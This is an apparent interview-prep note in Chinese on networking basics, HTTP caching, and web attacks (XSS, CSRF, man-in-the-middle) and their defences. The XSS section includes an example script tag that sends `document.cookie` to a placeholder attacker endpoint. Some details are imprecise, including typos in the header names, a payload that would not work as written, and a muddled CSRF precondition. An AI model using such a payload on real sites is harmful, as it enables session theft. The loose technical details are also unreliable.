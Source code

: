 ```yaml
---
title: 网络
tags: 面试
--- 
```

# 网络

## OSI 7 层参考模型

## TCP/IP 协议

1. 应用层(`HTTP`/`HTTPS`/`DNS`)
2. 传输层(`TCP`/`UDP`)
3. internet 层(`IP`)
4. 网络接口层(`物理接口`)

### TCP

**Transmisson Control Prorocol**

1. 连接建立
2. 可靠性传输
   特点： 三次握手四次挥手

### UDP

**User DataGram Protocol**

1. 非连接，不可靠传输方式
2. 效率高，速度快，适合音频和视频

### DNS

**Domain Name System**
域名解析系统
怎么查找域名：
DNS 域名解析采用的是递归查询的方式，过程，DNS 缓存>根域名服务器>根域名下一级

## HTTP 协议

Hypertext Transfer Protocol
超文本传输协议

## 缓存

数据库缓存、服务器端缓存（`nginx`、`CDN 缓存`）、浏览器缓存  
浏览器缓存由包含很多内容：`HTTP 缓存`、`indexDB`、`cookie`、`localstorage `等等

### HTTP 缓存

强缓存和协商缓存的区别就是，强缓存是不需要发请求到服务器的，而协商缓存是需要浏览器发送请求到服务器判断本地的缓存是否失效，若不失效则不请求服务器，反之请求服务器获取最新资源

### 强缓存

命中强缓存时，状态码为 200（Size 列标识为 from cache）的响应请求，利用 `Expire`s 和` Cache-Control` 控制强缓存。

1. Expires
   该值是响应头的字段，指定缓存到期的时间， `Expires=时间`，该时间为绝对时间，`Last-Modify` 结合使用
2. Cache-Control
   该值是响应头的字段，指定缓存到期的时间，`Cache-Control=max-age+时间`，该事件为相对时间

`Cache-Control` 优先级比 `Expires` 高
优点：  
服务器配置有限，降低服务器压力，1 台服务器能做到 10 台服务器的能力

> <- Expires: xxxx
> <- Cache-Control:max-age=600

### 协商缓存

命中协商缓存时，状态码为 304，利用 `Last-Modify/If-Modify-Since`

1. Last-Modify/If-Modify-Since
   第一次请求服务器，返回时会带上 `Last-Modify` 的响应头，标识着该资源最后修改时间，第二次请求时会带上 `If-Modify-since` 请求头，值为第一次响应的 `Last-Modify` 值，服务器会根据 `If-Modify-since` 判断是否命中缓存，**如果命中则不请求服务器，返回 304**，不返回 `Last-Modify`  
   第一次响应： `Last-Modify`  
   第二次请求： `If-Modify-since`
2. Etag/If-None-Match
   `Etag/If-None-Match` `返回的是一个校验码，Etag` 保证每个资源时唯一的，资源的变化都为导致 Etag 改变，服务器根据浏览器发送的 `If-None-Match` 判断是否命中缓存
   两者会优先验证 `Etag`,两种区别：

- 精度问题，第一种的精度时精确到秒，当资源的改变在秒级的时候，不太准确。所以由了 `Etag`
- 文件定期生成，当内容一样时，无法使用 `Last-Modify` 这一套
- 有可能存在服务器没有准确获取文件修改时间等，`Last-Modify` 也不能使用

> <- last-modifed: xxx
> -> if-modified-since: xxx
> <- etag: bbb
> -> if-noe-match: bbb

# web 安全

## 浏览器如何获取到 Cookie

- 利用接口响应的 Set-Cookie 字段  
  有哪些属性

1. domain
2. max-age、Express
3. httponly
4. name=value

## XSS (Cross-Site-Script) 跨站脚本攻击

恶意攻击者，将一些恶意代码插入到网页，当用户访问的时候自动执行这段代码，从而达到攻击者目的

1. 反射型
   特点： 一次性  
   用户点开带有恶意的 url（含有 script），浏览器将此段发送给服务端，服务端返回客户端，此时浏览器识别到可执行代码将其执行
2. 存储型
   特点：恶意代码存储到服务器  
   攻击者提交含有 script 标签的恶意代码表单到服务器，服务端将其保存，展示给其他用户时执行恶意代码

### 实现过程

1. 将 `<script scr="https://攻击者接口?cookie=document.cookie"> </script>`， 注册成用户名， 提交给服务端，服务端保存
2. 用户登录，如果查看到这个攻击者的账号信息相关，那么会执行恶意代码，将 cookie 拿到，发送到攻击者接口
3. 攻击者事先会收集各种接口，找到相关可以获取到用户的接口
4. 通过 cookie 获取到用户信息（手机号等）等

### 用途

1. 冒充身份
2. 刷点击（注入文章地址）
3. 弹广告（注入一段创建弹窗的代码）
4. 蠕虫病毒（冒充身份去发送邮件，联系人点开又会冒充去发送邮件....）

### 怎么防御

1. 输入过滤，对于特殊符号等不允许提交
2. httponly
3. 转义 HTML 比如： `< => &lt` 、 `> => &gt`

## CSRF (Cross-Site-Request-Forgery) 跨站点请求伪造

诱导受害者去到攻击者的网站，攻击者网站发起了相关请求，并且带上了受害者 cookie，从而可以做一些恶意的操作

前提： 浏览器没有严格执行同源政策，请求所在网站必须和请求的接口同源，就有可能发生 CSRF

### 实现过程

1. 受害者登录信任网站
2. 未关闭含有 cookie 的信任网站
3. 诱导受害者去攻击者网站（如果配合 XSS 此时可能会直接跳转，或者弹窗诱导到攻击者网站）
4. 在攻击者网站（用隐藏表单自动发送请求，img/src 自动 get 请求等骚操作...）发起信任网站相关接口，此时会携带用户的 cookie，冒充用户

### 用途

1. 冒充身份
2. 蠕虫病毒（冒充身份去发送邮件，联系人点开又会冒充去发送邮件....）

### 怎么防御

1. 用验证码，信任网站开启验证码，而攻击者网站没办法获取正确验证码
2. Referer ，表明请求的站点地址，但是有可能存在伪造 `Referer` 头
3. token，客户端接收服务端的 token，保存在隐藏区域（本地存储，隐藏的 html 元素，代码内存等），请求带上 token
4. 使用带有同源政策的浏览器，升级到默认开启严格模式版本

## 中间人攻击

是在数据传输时发生的攻击手段。截取 http 在传输时数据包，获取用户信息，篡改信息，篡改密钥
